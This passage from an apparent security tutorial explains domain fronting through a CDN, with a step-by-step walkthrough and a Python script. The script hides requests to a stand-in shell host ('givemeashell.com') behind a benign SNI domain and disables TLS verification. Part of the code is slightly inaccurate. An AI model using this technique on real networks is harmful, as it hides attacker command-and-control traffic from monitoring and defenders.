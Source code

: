Since the CDN caches content for different domains, you can leverage the CDN infrastructure to perform domain fronting.

### Example Walkthrough

1. **Initiate the Request from the Workstation**:
   - The workstation (10.5.5.5) makes a request to `totallyfine.com` using SNI.
   - The actual request inside the HTTP header points to `givemeashell.com`.

2. **SNI and HTTP Host Header Manipulation**:
   - The request uses `totallyfine.com` in the SNI extension.
   - The HTTP Host header points to `givemeashell.com`.

3. **CDN Processing**:
   - The CDN endpoint (192.168.5.1) receives the request.
   - The SNI indicates `totallyfine.com`, so the CDN accepts the connection.
   - The HTTP Host header specifies `givemeashell.com`, so the CDN serves content from `givemeashell.com`.

### Code Example with Python (Optional)

You can also perform this with a Python script using the `requests` library. Here's a simplified example:

```python
import requests
from requests.adapters import HTTPAdapter
from requests.packages.urllib3.poolmanager import PoolManager
import ssl

class SNIAdapter(HTTPAdapter):
    def __init__(self, server_name, *args, **kwargs):
        self.server_name = server_name
        super(SNIAdapter, self).__init__(*args, **kwargs)

    def init_poolmanager(self, *args, **kwargs):
        kwargs['ssl_context'] = self._create_ssl_context(self.server_name)
        return super(SNIAdapter, self).init_poolmanager(*args, **kwargs)

    def _create_ssl_context(self, server_name):
        context = ssl.create_default_context()
        context.check_hostname = False
        context.verify_mode = ssl.CERT_NONE
        context.sni_hostname = server_name
        return context

session = requests.Session()
session.mount('https://', SNIAdapter('totallyfine.com'))

response = session.get('https://totallyfine.com', headers={'Host': 'givemeashell.com'}, verify=False)
print(response.content)
```

